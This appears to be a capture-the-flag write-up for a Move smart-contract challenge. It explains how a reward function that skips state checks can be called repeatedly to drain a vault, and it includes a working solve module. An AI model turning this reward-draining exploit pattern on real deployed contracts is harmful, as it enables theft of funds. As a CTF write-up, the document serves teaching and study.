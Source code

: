 Now, one would expect the normal gameplay loop to be: Visit the tavern, buy equipment, checkout, add a monster to the questboard, defeat the monster, return home and get the reward.

This would only work once though, since the players power gets reset after every fight, so equipment is consumeable, but unfortunately, the equipment required to defeat a monster is more expensive than the reward the monster gives.

So instead we have to do a little sequence breaking, and we will abuse the fact that the player state is not always checked correctly.

Our only way of generating money, is getting the reward, which doesn't actually check if a monster has been defeated or not, and just gets the top monster from the quest board, and pays out. And even better, we can totally call this function when the player is in a state other than `FINISHED`, namely `SHOPPING`.

So our plan now: get equipped, generate a bunch of monsters for our quest board, defeat one, get the reward, go shopping and get the reward again until there are no monsters left on the board, which should lead to enough money to be able to afford the flag.

There is just a small roadblock: the generated tickets must always be consumed by the `checkout` function, otherwise the transaction is illegal. Luckily, we can always call `checkout` from any state, and so we can make sure to buy a cheap shield while we are shopping, and still make big profits.

Coding all of this out results in this here (excuse me for the code duplication, this was before I figured out exactly how loops worked in the move programming language, since I initially only tried a for loop, which seems to not exist):
```rust
module solve::solve {

    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};

    public fun solve(
        _board: &mut Otter::QuestBoard,
        _vault: &mut Otter::Vault<OTTER>,
        _player: &mut Otter::Player,
        _ctx: &mut TxContext
    ) {
        let mut friendship_ticket = Otter::enter_tavern(_player);
        Otter::buy_power_of_friendship(_player, &mut friendship_ticket);
        Otter::checkout(friendship_ticket, _player, _ctx, _vault, _board);
        let mut i = 0;
		while (i < 9) {
			Otter::find_a_monster(_board, _player);
			i = i + 1;
		};
		Otter::bring_it_on(_board, _player, 0);
		Otter::return_home(_board, _player);
		Otter::get_the_reward(_vault, _board, _player, _ctx);
		
		i = 0;
		while (i < 8) {
			let mut ticket = Otter::enter_tavern(_player);
			Otter::buy_shield(_player, &mut ticket);
	        Otter::get_the_reward(_vault, _board, _player, _ctx);
			Otter::checkout(ticket, _player, _ctx, _vault, _board);
			i = i + 1;
		};
		
        let mut flag_ticket = Otter::enter_tavern(_player);
        Otter::buy_flag(&mut flag_ticket, _player);
        Otter::checkout(flag_ticket, _player, _ctx, _vault, _board);
    }

}
```
